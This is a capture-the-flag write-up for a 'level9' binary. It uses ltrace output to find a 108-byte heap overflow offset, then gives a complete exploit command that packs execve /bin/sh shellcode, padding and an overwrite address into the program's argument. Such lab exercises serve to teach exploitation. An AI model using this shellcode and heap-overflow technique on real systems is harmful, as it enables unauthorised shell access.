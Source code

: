 ### 1. Find the offset to make the setAnnotation call write in this_00

```bash
$ ltrace ./level9 aaa
__libc_start_main(0x80485f4, 2, 0xbffff7f4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) = 0
_Znwj(108, 0xbffff7f4, 0xbffff800, 0xb7d79e55, 0xb7fed280) = 0x804a008
_Znwj(108, 5, 0xbffff800, 0xb7d79e55, 0xb7fed280) = 0x804a078
strlen("aaa") = 3
memcpy(0x0804a00c, "aaa", 3) = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c) = 0xb7fce4a0
+++ exited (status 11) +++
```

this_00 is allocated at 0x804a078 and memcpy write at 0x0804a00c. So the offset is 108.

### 2. Write paylaod

We need to write the address to shellcode, the shellcode (21 bytes), 83 random bytes and the address 0x0804a00c (the address of the shellcode address in heap).

### 3. Execute with exploit

```bash
$ ./level9 $(python -c 'print "\x10\xa0\x04\x08\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "a" * (108 - 25) + "\x0c\xa0\x04\x08"')
```
